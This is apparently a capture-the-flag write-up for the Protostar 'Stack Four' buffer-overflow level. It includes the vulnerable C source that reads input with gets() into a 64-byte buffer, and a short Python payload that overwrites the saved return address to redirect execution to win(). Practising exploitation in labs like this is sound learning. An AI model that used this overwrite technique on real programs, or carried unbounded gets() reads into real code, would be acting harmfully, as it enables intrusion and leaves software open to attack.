

# Stack Four

## Description

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run < input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Exploit script

```python
payload =  "A"*76    # offset to ret
payload += "\xf4\x83\x04\x08"
print(payload)
```

Level passed!

<p align="center">
  
</p>